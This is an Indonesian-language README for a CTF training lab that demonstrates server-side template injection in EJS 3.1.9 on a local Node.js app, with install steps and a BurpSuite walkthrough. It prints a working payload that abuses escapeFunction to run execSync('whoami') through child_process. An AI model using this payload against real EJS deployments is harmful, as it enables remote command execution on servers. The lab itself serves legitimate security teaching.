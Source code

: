 # 🧪 EJS-SSTI-VULN: Server-Side Template Injection Playground

> CTF Labs | by [ctflabs-id](https://github.com/ctflabs-id)

---

## 🎯 Apa Itu SSTI?

**SSTI (Server-Side Template Injection)** adalah jenis kerentanan di mana user dapat menyisipkan *template code* ke dalam input yang dirender oleh server menggunakan template engine seperti EJS, Jinja2, Twig, dan lainnya.

Dengan memanfaatkan kelemahan ini, attacker dapat:
- Mengeksekusi perintah server-side (`RCE`)
- Membaca environment variabel
- Akses ke file sistem

---

## ⚙️ Cara Kerja EJS SSTI (v3.1.9)

Pada **EJS versi 3.1.9**, jika diset `client=true` dan `escapeFunction` dilewatkan sebagai function injection, maka **arbitrary JS code** bisa dijalankan saat template dirender.

Contoh payload:
```bash
&settings[view options][client]=true
&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('whoami');
```

---

## 🚀 Instalasi Lab Lokal (only works on linux servers / os / vm, tested on Kali)

```bash
git clone https://github.com/ctflabs-id/EJS-SSTI-VULN
cd EJS-SSTI-VULN
npm install
npm start
```

💡 Jalankan pada terminal pertama ```node app.js```,
Jalankan BurpSuite pada background untuk intercept

## Step-by-Step Eksploitasi

1. Aktifkan BurpSuite Intercept
<img src="./assets/1.png"></img>
2. Buka browser ke: `http://localhost:3000/settings`
<img src="./assets/2.png"></img>
3. Masukkan credentials apapun (nama & password ex: malvin, 123)
<img src="./assets/3.png"></img>
4. Submit form dan tangkap request-nya di BurpSuite
<img src="./assets/4.png"></img>
5. Masukkan Payload SSTI ke dalam body request seperti ini:
```bash
name=ctfer&password=123&settings[view options][client]=true&settings[view options][escapeFunction]=1;return global.process.mainModule.constructor._load('child_process').execSync('whoami');
```
<img src="./assets/5.png"></img>
6. Forward Request, kembali ke browser dan lihat hasil perintah dieksekusi!
<img src="./assets/6.png"></img>

<hr>

🔎 Output Contoh
```html
Welcome ctfer
web
```

🎓 Tujuan Lab Ini
1. Memahami dampak eksploitasi SSTI
2. Belajar intercept dan manipulasi request real-time
3. Eksperimen dengan template injection di Node.js (EJS Engine)

<hr> 

⚠️ Disclaimer
Lab ini hanya untuk tujuan edukasi dan riset keamanan.
Jangan gunakan teknik ini untuk menyerang sistem tanpa izin.

<hr>

🤝 Kontribusi Pull request & issue welcome via: ctflabs-id/EJS-SSTI-VULN

🧠 Maintained by

    GitHub: @ctflabs-id
    Website: ctflabsid.my.id

